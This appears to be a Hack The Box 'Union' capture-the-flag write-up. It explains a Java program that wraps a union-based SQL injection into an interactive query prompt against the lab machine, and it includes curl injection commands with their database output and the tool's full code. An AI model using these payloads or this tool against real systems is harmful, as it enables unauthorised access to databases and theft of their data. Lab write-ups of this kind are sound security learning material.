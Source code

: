 # Hack The Box. Machines. Union

Machine write-up: https://7rocky.github.io/en/htb/union

### `UnionSQLi.java`

This Java code is used to provide an interactive way to enter SQL queries in a form field vulnerable to Union-based SQL injection. The output will be only the result of the query if it is correct.

The SQL injection can be exploited using `curl`, but the output is the following:

```console
$ curl 10.10.11.128/index.php -d "player=' union select database() -- -"
Sorry, november you are not eligible due to already qualifying.
$ curl 10.10.11.128/index.php -d "player=' union select version() -- -"
Sorry, 8.0.27-0ubuntu0.20.04.1 you are not eligible due to already qualifying.
$ curl 10.10.11.128/index.php -d "player=' union select user() -- -"
Sorry, uhc@localhost you are not eligible due to already qualifying.
```

The aim of this Java program is to enter only the SQL query and output only the query result. An example of use of the program might be the following (`rlwrap` is a command to have a command history, to be able to move right and left, and clear the screen with `^L`):

```console
$ rlwrap java UnionSQLi.java
SQLi> select database()
november
SQLi> select version()
8.0.27-0ubuntu0.20.04.1
SQLi> select user()
uhc@localhost
SQLi> exit
```

To build the Java code, first I define some constant variables at the top:

```java
private static final String POST_URL = "http://10.10.11.128/index.php";
private static final String POST_DATA = "player=' union %s -- -";
private static final Pattern PATTERN = Pattern.compile("Sorry, ([\\s\\S]*?) you are not eligible due to already qualifying.");
```

The first one is the vulnerable URL, the second one is the payload with a `%s` to enter the SQL query using `String.format` and then the pattern to extract the result of the query using a Regular Expression.

The `main` function is the following:

```java
public static void main(String[] args) {
  try (Scanner in = new Scanner(System.in)) {
    while (true) {
      System.out.print("SQLi> ");
      String sqli = in.nextLine();

      if (sqli.equals("exit")) {
        break;
      } else if (sqli.isEmpty()) {
        continue;
      }

      String response = sendPOST(sqli);

      if (response.startsWith("Sorry")) {
        System.out.println(filterResult(response));
      } else {
        System.out.println("ERROR");
      }
    }
  } catch (IOException e) {
    System.out.println("ERROR");
  }
}
```

Basically, what it does is use an infinite loop to provide the `SQLi> ` prompt and read the SQL query from standart input (`stdin`). The SQL query is sent to the `sendPOST` method and the resulting response is filtered using `filterResult` if it is correct (otherwise it will print `ERROR`).

The `sendPOST` method is the following:

```java
  private static String sendPOST(String sqli) throws IOException {
    URL url = new URL(POST_URL);
    HttpURLConnection httpURLConnection = (HttpURLConnection) url.openConnection();
    httpURLConnection.setRequestMethod("POST");
    httpURLConnection.setDoOutput(true);

    OutputStream outputStream = httpURLConnection.getOutputStream();
    outputStream.write(String.format(POST_DATA, sqli).getBytes());
    outputStream.flush();
    outputStream.close();

    if (httpURLConnection.getResponseCode() == HttpURLConnection.HTTP_OK) {
      try (BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(httpURLConnection.getInputStream()))) {
        return bufferedReader.lines().map(line -> line + "\n").reduce(String::concat).orElse("");
      } catch (IOException e) {
        System.out.println("ERROR");
      }
    }

    return "";
  }
```

Although it is a little verbose, the function is very simple, it just takes the SQL query and puts it into the `POST_DATA` using `String.format` (here is the use of `%s`).

If the response is successful (200 OK), then we read the response and put it in a `String format` using some Java functional programming:

```java
bufferedReader.lines()
  .map(line -> line + "\n")
  .reduce(String::concat)
  .orElse("");
```

This sentence takes each line of the result, adds a new line character (`\n`) to each one and concatenates all of them.

The use of `.orElse("")` is because `.reduce(String::concat)` returns an `Optional<String>` type, that cannot be used as a simple `String`. This way, if some exception occurs, the returning string will be empty (`""`).

Finally, the `filterResult` method only extracts the desired data using the `PATTERN` defined above:

```java
private static String filterResult(String response) {
  Matcher matcher = PATTERN.matcher(response);
  matcher.find();
  return matcher.group(1);
}
```

The `PATTERN` makes use of `([\s\S]*?)` to match any "space" character (for instance: spaces, tabs, or new lines) with `\s` or any "non-space" character with `\S` multiple times (`*`).

The use of `?` is to match the minimum until finding the following content of the pattern (namely, ` you are not eligible due to already qualifying.`).

**Note:** The previous code snippets are shown only as an explanation, the complete source code is a bit different due to the `import` statements.
